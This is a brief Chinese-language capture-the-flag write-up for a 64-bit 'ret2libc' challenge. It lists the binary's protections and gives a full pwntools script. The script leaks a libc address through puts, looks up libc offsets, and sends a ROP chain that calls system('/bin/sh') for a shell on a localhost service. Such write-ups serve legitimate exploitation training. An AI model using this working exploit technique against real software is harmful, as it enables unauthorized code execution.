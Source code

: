 # ret2libc

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

vuln函数里就写了利用ret2libc...和之前一样

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('localhost', 39671)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x40117e
vulnAddr = elf.symbols['vuln']

# payload 1
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'??\n\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x40122a

# payload 2
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
